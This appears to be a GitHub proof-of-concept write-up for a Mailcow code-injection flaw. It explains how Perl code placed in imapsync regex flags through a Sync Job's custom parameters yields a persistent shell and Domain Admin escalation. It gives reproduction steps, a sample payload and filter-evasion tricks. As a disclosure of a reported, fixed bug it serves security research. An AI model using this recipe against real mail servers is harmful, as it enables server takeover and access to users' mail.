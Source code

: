 # Mailcow CVE-2022-31138 
RCE and Domain Admin privilege escalation for Mailcow. POC for [CVE-2022-31245](https://github.com/ly1g3/Mailcow-CVE-2022-31245#proof-of-concept-poc) can be modified to work with this vulnerability. </br>

Reported and fixed: 2022-06

## Code Injection, RCE
Type: Code Injection (CWE-94), RCE, Domain Takeover </br>
Affected versions: least 2019 - 2022-06a </br>

A flaw exists in all recent Mailcow versions where a regular user of the system can exploit the “Sync Job” feature to gain a shell using perl code injection in arbitrary regex field in imapsync. Using this exploit a attacker can then easily pivot to the database and escalate privileges to the role of “Domain Admin” in Mailcow.

This exploit includes persistence by default since Sync Jobs run on a timer.

This exploit compromises the entire Mailcow instance. Tested and working on latest release as of 2022-06a.


### Technical overview
Almost all regex expressions in imapsync is evaluated using the `eval` function, this is highly unsafe when parameters are given by user-input. As a example, here is how `--regexmess` is parsed in imapsync (line 14213):
```perl
sub regexmess
{
        my ( $string ) = @_ ;
        foreach my $regexmess ( @regexmess ) {
                $sync->{ debug } and myprint( "eval \$string =~ $regexmess\n" ) ;
                my $ret = eval "\$string =~ $regexmess ; 1" ;
```
In Mailcow `$regexmess` is given as user-input.

The following imapsync flags (could be more) can be used to achieve code execution:
```
--regexmess
--skipmess
--regexflag
--delete2foldersonly
--delete2foldersbutnot
--regextrans2
```

Using the steps below the vulnerability can be recreated.

Gaining shell:
1. Go to the Mailcow login page (not SOGo)
2. Login as a regular user
3. Go to Sync Jobs
4. Set the following values: ```hostname=MAILCOW_IP, Port=IMAP_PORT, Username=CURRENT_USER, Password=CURRENT_PASS, Encryption=PLAIN, Interval=1, Active=Check, Custom Parameters=--debug --nosslcheck --regexmess=PERL_CODE```
Where the field "Custom Parameters" is the important field. PERL_CODE can be arbitrary perl code.
5. Press save and wait 1 min for the command to execute.

Custom Parameters example payload:
```
--debug --nosslcheck --regexmess=`touch\x{0020}test.txt`
```
PERL_CODE cannot contain space,quotes or slashes,  use `\x{0020}` instead of space. Use ``` ` ``` to run shell commands.


Privilege Escalation:

Follow the same steps as in [CVE-2022-31245](https://github.com/ly1g3/Mailcow-CVE-2022-31245#technical-overview).
